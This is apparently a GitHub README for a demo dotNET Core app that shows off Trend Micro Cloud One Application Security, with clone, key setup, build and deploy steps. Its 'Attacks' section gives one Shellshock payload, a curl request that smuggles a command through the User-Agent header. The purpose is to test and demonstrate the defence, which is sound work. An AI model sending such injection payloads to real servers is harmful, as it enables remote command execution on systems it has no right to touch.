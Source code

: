 # Cloud One Application Security with dotNET Core

- [Cloud One Application Security with dotNET Core](#cloud-one-application-security-with-dotnet-core)
  - [Usage](#usage)
  - [Attacks](#attacks)
  - [Support](#support)
  - [Contribute](#contribute)

This demo app for Cloud One Application Security uses a simple dotNET demo app based on @Microsoft <https://github.com/dotnet/dotnet-docker/tree/main/samples/aspnetapp>. The app does not support any interaction, but you can shellshock it to proove, that Application Security does it's job.

Application Security integration done via the provided Dockerfile

## Usage

First, clone the repo

```sh
$ git clone https://github.com/mawinkler/c1-app-sec-dotnet.git
```

Now, set your Application Security keys

```sh
$ # YOUR KEYS HERE
$ export APPSEC_KEY=<your key>
$ export APPSEC_SECRET=<your secret>
$ # YOUR DOCKER HUB USERNAME (required for deploy.sh only)
$ export DOCKER_USERNAME=<your username>
$ # DESIRED DOTNET VERSION
$ export DOTNET_VERSION=5.0
```

Eventually, if your Cloud One V2 account is NOT running in `us-1` you need to adapt the hello_url in the `TrendAppProtect.config`.

Then build and run the container, which you can do by running

```sh
$ # Run app on your local docker engine
$ # Requires docker-compose
$ ./run.sh

$ # Deploy app with a loadbalancer service on your current kubernetes context
$ ./deploy.sh
```

The app is accessible on port 5000.

## Attacks

```sh
curl -H "User-Agent: () { :; }; /bin/eject" http://<IP>:80/
```

## Support

This is an Open Source community project. Project contributors may be able to help, depending on their time and availability. Please be specific about what you're trying to do, your system, and steps to reproduce the problem.

For bug reports or feature requests, please [open an issue](../../issues). You are welcome to [contribute](#contribute).

Official support from Trend Micro is not available. Individual contributors may be Trend Micro employees, but are not official support.

## Contribute

I do accept contributions from the community. To submit changes:

1. Fork this repository.
1. Create a new feature branch.
1. Make your changes.
1. Submit a pull request with an explanation of your changes or additions.

I will review and work with you to release the code.
